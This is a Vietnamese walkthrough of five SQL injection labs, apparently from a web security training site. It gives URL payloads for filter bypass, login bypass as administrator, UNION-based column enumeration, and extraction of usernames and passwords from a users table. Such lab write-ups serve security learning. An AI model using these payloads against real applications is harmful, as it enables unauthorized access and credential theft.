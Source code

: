 # 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Truy cập category 'Pets' ta thấy URL có dạng `/filter?category=Pets`

Test lỗi SQL injection: `/filter?category=Pets'--`. Kết quả trả về thành công, như vậy trang web có lỗ hổng SQLi ở chức năng search theo category

Để show thông tin tất cả các category, ta thay đổi URL thành `filder?category=Pets'+or+'1'='1`. Kết quả trả về thành công.

# 2. SQL injection vulnerability allowing login bypass
Thử dùng username `administrator'--` để đăng nhập. Nếu có lỗi SQL injection, câu query sinh ra sẽ bỏ qua việc xác thực password. 

Sau khi submit, ta thu được kết quả thành công.

# 3. SQL injection UNION attack, determining the number of columns returned by the query
Trong chức năng tìm kiếm theo category của website, URL có dạng `/filter?category=Gifts`

Ta thay đổi URL thành `/filter?category=Gifts'+UNION+SELECT+NULL,NULL,NULL` thì thấy kết quả trả về thành công. Như vậy có 3 cột được trả về trong câu truy vấn (tương ứng với 3 giá trị NULL)

# 4. SQL injection UNION attack, finding a column containing text
Trong chức năng tìm kiếm theo category của website, URL có dạng `/filter?category=Lifestyle`

Ta thay đổi URL thành `/filter?category=Lifestyle%20UNION%20SELECT%20NULL,NULL,NULL--` thì thấy kết quả trả về thành công. Như vậy có 3 cột được trả về từ câu truy vấn. Tiếp theo, ta cần tìm column chứa kiểu dữ liệu string.

Thay lần lượt từng giá trị NULL thành `%27a%27`, ta thấy với URL `filter?category=Lifestyle%27%20UNION%20SELECT%20NULL,%27a%27,NULL--` thì không bị lỗi "Internal Server Error". Như vậy column thứ 2 chính là column ta cần tìm.

# 5. SQL injection UNION attack, retrieving data from other tables
Chức năng search theo category của website có lỗi SQLi. 

Ta thay URL thành `/filter?category=Accessories%27%20UNION%20SELECT%20NULL,NULL%20FROM%20users--`. Kêt quả thành công, như vậy có 2 column được trả về

Thay URL thành `/filter?category=Accessories%27%20UNION%20SELECT%20%27a%27,%27a%27%20FROM%20users--`. Kết quả thành công, như vậy cả hai column đó đều có kiểu dữ liệu string.

Thay URL thành `/filter?category=Accessories%27%20UNION%20SELECT%20username,password%20FROM%20users--` thì thấy username và password của administrator đã xuất hiện như trong hình

![image](https://user-images.githubusercontent.com/103978452/201867157-34622c44-2e40-4672-86bd-a0f9211f0010.png)
